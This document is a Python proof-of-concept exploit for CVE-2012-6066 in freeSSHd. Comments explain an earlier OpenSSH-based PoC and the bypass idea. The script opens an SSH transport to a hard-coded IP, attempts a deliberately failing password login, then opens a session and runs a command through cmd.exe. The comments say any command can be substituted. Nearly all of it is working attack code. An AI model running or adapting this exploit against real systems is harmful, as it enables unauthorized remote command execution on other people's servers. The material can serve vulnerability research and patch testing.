 POC
---

    import socket
    import paramiko
    import time

    # this is a writeup exploit of CVE 2012-6066
    # basically the  user needs to be on freeSSHd even since that authentication failed.
    # discovery and original PoC provided By Aris,kingCope (2012)
    # mainly what KingCope did in his PoC is change the source file of ssh.c and sshconnect2.c in the OpenSSH source code
    # the changes are
    #$ diff openssh-5.8p2/ssh.c openssh-5.8p2_2/ssh.c
    #209c209
    #< static int ssh_session2(void);
    #---
    #> int ssh_session2(void);
    #1374c1374
    #< static int
    #---
    #> int

    #$ diff openssh-5.8p2/sshconnect2.c openssh-5.8p2_2/sshconnect2.c
    #873a874,876
    #>     ssh_session2();
    #>       exit(0);
    #>
    #1452a1456,1458
    #>     ssh_session2();
    #>       exit(0);
    # the changes in the first file "ssh.c" changes the declaration type of the fuction "ssh_session2" from static int to int to enable it from getting called again within the same connection
    # the changes in the second file "sshconnect2.c" calls the function "ssh_session2()" from "ssh.c" and exits right after the userauth_passwd() and userauth_pubkey() functions before any checks are made.
    # after further analysis of the vulnerability My guess was that if i was able to interact with the ssh session ona lower level "Transport and channel level"
    # i will be able to gain access and execute commands even if authentication fails same as the changes that was made by kingcope in the OpenSSH source file which exits immediatley after authentication functions are called.

    # the prequisited of this script is to have paramiko module available also the user used in the exploit needs to be already in freeSSHD no password is needed
    # this PoC will open internet Explorer but any command can be executed in the context of cmd.exe

    # create Socket for transport
    # you may need to run it twice to get the command to execute
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('172.16.49.152',22))

    # create transport layer over socket
    t = paramiko.transport.Transport(s)

    # start client over trasnport session

    t.start_client()

    # try fake auth and pass exceptino to failure ( if u want to make sure that the aith fails with provided username and password remove the try,except, & pass lines) and fix ident of the auth_password lines
    try:
        t.auth_password('s','blablablabla')
    except paramiko.SSHException:
        pass
    # request channel with "session"
    c = t.open_session()

    #Execute iexplore.exe

    c.exec_command('cmd /c "c:\program files\internet Explorer\iexplore.exe"')
    #time.sleep(10)
    c.close()
    t.close()
    s.close()